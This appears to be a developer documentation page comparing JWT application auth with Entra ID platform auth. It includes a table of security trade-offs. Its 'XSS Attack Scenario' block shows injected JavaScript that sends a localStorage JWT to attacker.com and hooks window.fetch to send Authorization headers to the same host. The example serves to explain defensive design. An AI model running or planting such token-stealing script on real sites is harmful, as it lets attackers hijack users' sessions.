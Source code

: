 | Feature                 | JWT (Application)                 | Entra ID (Platform)          |
| ----------------------- | --------------------------------- | ---------------------------- |
| **Token storage**       | JavaScript memory or LocalStorage | HttpOnly cookies             |
| **Token visibility**    | Visible in dev tools              | Hidden from JavaScript       |
| **XSS risk**            | High (can extract token)          | Low (HttpOnly cookie)        |
| **CSRF protection**     | Manual (CSRF tokens needed)       | Automatic (SameSite cookies) |
| **Token refresh**       | Manual code                       | Automatic                    |
| **User management**     | Application database              | Entra ID (enterprise)        |
| **Password management** | You hash/store passwords          | Microsoft manages            |
| **Multi-factor auth**   | You implement                     | Entra ID provides            |
| **SSO**                 | You implement                     | Entra ID provides            |
| **Audit logs**          | You implement                     | Entra ID provides            |
| **Cost**                | Development time                  | $0 (included)                |

**XSS Attack Scenario:**

```javascript
// Attacker injects malicious script via XSS vulnerability
// Can steal JWT token from memory or LocalStorage

// In console or injected script:
// If using LocalStorage (BAD):
const token = localStorage.getItem("jwt_token");
fetch("https://attacker.com/steal?token=" + token);

// If using memory (BETTER, but still vulnerable):
// Can intercept fetch calls or hook into TokenManager
const originalFetch = window.fetch;
window.fetch = function (...args) {
  const headers = args[1]?.headers || {};
  const authHeader = headers["Authorization"];
  if (authHeader) {
    fetch("https://attacker.com/steal?token=" + authHeader);
  }
  return originalFetch.apply(this, args);
};
```

**Platform Auth (Entra ID) Protection:**

```javascript
// With Entra ID, auth cookie is HttpOnly
// JavaScript cannot access it
document.cookie; // Auth cookie NOT visible
// "other-cookies=value" (but not .AspNetCore.Cookies)

// Even with XSS, attacker cannot steal auth cookie
// Can only make requests on same domain
// (still harmful, but more limited)
```
